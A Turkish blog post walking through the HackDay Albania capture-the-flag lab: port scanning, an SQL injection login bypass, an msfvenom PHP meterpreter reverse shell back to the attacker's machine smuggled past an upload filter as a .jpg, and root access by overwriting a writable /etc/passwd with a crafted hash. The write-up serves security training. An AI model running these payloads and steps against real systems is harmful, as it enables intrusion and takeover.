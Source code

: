 ```yaml
---
layout: post
title: Hack A Day Albania Walktrough
date: '2017-03-03 16:10:00 +0300'
categories: blog
---
```


Selam,  
Hack A Day Albania CTF sanal makinasının tam çözümünü yaptık, sizlerle paylaşmak istedik. Keyifli okumalar.  
  
    
__Hackaday Albania CTF__

VM hakkında ayrıntılı bilgi alabileceğiniz ve indirme bağlantısını bulabileceğiniz link aşağıdadır  

[VulnHub](https://www.vulnhub.com/entry/hackday-albania,167/)


__VM çözümü__  

İlk önce kendi sistemimizin nasıl bir ağ yapılandırması ile çalıştığını öğrenmek için  

```ifconfig```  

komutu ile kendi IP adresimizi ve Subnet Mask'ımızı öğrenip(192.168.1.0/24 ağında bulunuyorum)   

```
nmap 192.168.1.1/24
```  

komutunu kullanarak içinde bulunduğumuz ağda bulunan diğer cihazları bulmak için nmap aracını **192.168.1.1/24** 
ağına yönelik normal tarama yapması için çalıştırıyoruz. Tarama sonucunda, **192.168.1.10** IP adresine sahip hedefimizin üzerinde;
22 TCP portunda SSH, 8008 TCP portunda bir HTTP servisinin açık olduğunu keşfediyoruz.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/01.png)  


Fakat normal taramada (ki bu top 1000 porttur) açık olmayan, ama servis verir durumda olan bir port olup olmadığını öğrenmek
için hedef sisteme standart tarama yerine birde ayrıca full port taraması yapıyoruz, böylelikle top 1000 port arasında olmayan ama servis verir yani açık durumda olan portları da tespit edebilriz.  
Örnek olarak, kendi sistemimizde bulunan SSH servisini normalde hizmet vermesi gereken 22 numaralı porttan 1996 portuna taşırsak normal tarama ve full port tarama sonucu aşağıdaki gibi olacaktır.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/02.png)  


```
nmap -n -p 1-65535 -sV 192.168.1.10 --open
```  
    
komutu ile tüm açık TCP portlarını listeliyoruz ancak bunlara ek açık bir port göremiyoruz
bunun üzerine HTTP portuna yönelip browserımızda  
```
http://192.168.1.10:8080
```

adresine gitmeyi deniyoruz. 8008 portunu belirtmek zorundayız çünkü HTTP 
varsayılan portu 80 dir ve browser 80 portunu deneyeceği için hata alacaktır.
Siteye girdiğimizde bizi Elliot Alderson yani nam-ı diğer Mr.Robot
karşılıyor ve bilmediğimiz bir dilde yazılmış birkaç satır. Bu satırları google translateden
çevirince çok anlamlı çıkmasa da arnavutça yazılmış olduğunu anlıyoruz ve yazıda **nereye gideceğini
bildiğini** ifade ediyor. Sayfa kodlarında da birşey bulamayınca, 
hemen adresi **[Owasp ZAP](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)** aracında tarattığımızda birşey gözümüze çarpıyor:

```
robots.txt
```   
    

![]({{ AUCyberClub.github.io }}/assets/img/hackaday/03.png)  


içerisindeki adresleri denediğimizde de hep aynı sayfa ve kaynak
kodlarında da ekstra birşey bulamıyoruz.  


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/04.png)  


Fakat ortalara doğru

```
/unisxcudkqjydw
```

adresini girdiğimizde farklı bir sayfa ve bir ipucuyla karşılaşıyoruz  


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/05.png)  


tabi hemen ipucunu değerlendirip sonuna ekliyoruz. Yani adresi

```
http://192.168.1.10:8008/unisxcudkqjydw/vulnbank/
```

haline getiriyoruz ve gelen sayfadaki client linkini denediğimizde de bizi çok 
güvenli olduğunu iddia eden bir banka karşılıyor. Tabiki aklımıza hemen SQL Injection
geliyor ve tepki ölçmek adına kullanıcı ve parola kısmına birer tırnak(')
koyuyoruz. Oltaya takılan balık ilk başta bizi çok heyecanlandırıyor.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/06.png)  


MySQL servisi kullanıldığını ve istismar et beni dercesine bakan bir mesajı
görüyoruz. Hemen büyük bir özgüvenle   

```
' or '1' = '1
```

olarak bilinen genel yöntemi deniyoruz ancak çok da sazan olmadığını
kanıtlarcasına bizi başta ürküten bir hata alıyoruz:


```
Invalid Credentials...
```


tabi ki pes etmeyip bikaç genel geçer yöntem daha deniyoruz ancak o bize, biz de
ona bakıyoruz. Sonra yorum satırı haline getirsek nolur diye düşünüp
username ve password'e:

```
' or 'aucc' = 'aucc';#
```

yazarak (sadece username'e yazıp password'ü gereksiz doldursanızda olur)
SQL sorgusu kodunu doğru döndürüp kalan sorguyu yorum haline getiriyoruz
ve 25000 euroluk hesabıyla bizi charles karşılıyor.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/07.png)   


fakat gözümüz hala doymamış olacak ki sistem hedefinden şaşmayıp sağda duran **Contact Support**
kısmında file selecti görünce kalbimiz çarpıyor. Tabi durmayıp

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw > aucc.php
```  

ile **192.168.1.5** IP adresli Kali Linux makinemizin 4444 portuna yönlendiren
bir php zararlı yazılımı, üretip onu da raw formatında **aucc.php** adında
bir dosyaya yazıyoruz ve metasploitimizi de resimdeki gibi hazırlayıp


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/08.png)  


bizi renklerle kandıracağını düşünenlere de mesajımızı vererek
**aucc.php** yi yüklemeye çalışıyoruz  


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/09.png)  


fakat hacklendikten sonra artık sadece jpg ve türevi kabul ediyoruz diyerek bize kapıyı gösteriyor.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/10.png)  


Biz de, al sana jpg diyip **aucc.php** nin adını **aucc.jpg** olarak olarak değiştirip
yepyeni bir sticker göndermesiyle yüklüyoruz. 


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/11.png)  


Ve dosyayı yedirmeyi başardık. Fakat msfconsole hala bekliyor yani bizim bu dosyayı açtırmamız lazım.
bıraktığımız Ticket'ın üzerine tıklayıp, sistem **aucc.jpg** dosyasını açmaya çalışınca
msfconsole da bir hareketlilik baş gösteriyor ve meterpreter konsolundayız. Bana göre sahte kısmı burada
başlıyor çünkü normal sistemlerde karşımıza kolay kolay çıkmayacak olan olayla burada karşılaştım.

```
/etc/group
```

dosyasından sudo yetkisine sahip kullanıcılara baktığımda 'taviso'yu görüp ona erişmeyi denesemde çözüm
bu olmadığından başaramadım. Fakat dediğim gibi karşımıza kolay kolay çıkmayacak şekilde

```
/etc/passwd
```

doaysının izinlerine baktığımızda write iznini farkediyoruz. Tabi **meterpreter** üzerinden bunu editlemek biraz
sancılı olacağı için

```
download /etc/passwd
```

ile Kali'ye hedef makinenin passwd dosyasını indiriyoruz. Eski linux sistemler şifreleri(hashlenmiş parolaları) de bu dosyada tutuyordu
fakat daha sonra istismar edilebilirliği daha doğrusu "bruteforce" u engellemek adına şifreleri **/etc/shadow** a
taşıyarak eskiden şifrelerin olduğu yere bir **x** bıraktılar ve bu yolla parola kontrolü için shadow a yönlendirme yaptılar.
shadow un okuma iznide yalnız rootta olduğu için bence "şimdilik yeterince güvenli" bir işe imza attılar. Bu bilgiyi kullanarak

```
openssl passwd -1 -salt tuzlu aucc
```

ile passwd formatında md5(-1) tipinde **tuzlu** ile saltlanmış yani bruteforce u zorlaştırmak adına önlem alınmış ve parola olarak 'aucc'nin 
hashini üretiyoruz ve çıktı olarak :

```
$1$tuzlu$LewyIW83SjgyBrkI29SWh0
```  

alıp bunu herhangi bir editörde "taviso"nun yanındaki 'x' in yerine yapıştırıyoruz(x'i siliyoruz) ve kaydedip çıkıyoruz. 


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/12.png)  


Root'un parolasını da değiştirebilik ancak ben sudo yetkili kullanıcıyı tercih ettim. Düzenlediğimiz bu dosyayı tekrar meterpreter'dan

```
upload passwd /etc/passwd
```

ile hedef sistemdeki passwd nin yerine yüklüyoruz. Artık SSH ile bağlanıp doğru düzgün bir shellde devam edebiliriz.

```
ssh taviso@192.168.1.10
```

ile bağlantımızı kurup parola olarak 

```
aucc
```

yazıyoruz ve içerdeyiz. Son olarak flagi **/root** dizininde bulup

![]({{ AUCyberClub.github.io }}/assets/img/hackaday/13.png)  

```
cat /root/flag.txt
```

ile flag'i bastırıp flag'i gördüğümüze göre sanal makinemizde işimizi bitiriyoruz.

```
FLAG:

    Urime,

    Tani nis raportin!

    (arnavutça "tebrikler, şimdi rapor başlıyor!" yazıyor ve flagi veriyor)
```      
    **d5ed38fdbf28bc4e58be142cf5a17cf5**
    
    
      
 ---
 **[Hüseyin Erdem](https://twitter.com/rootofarch)**
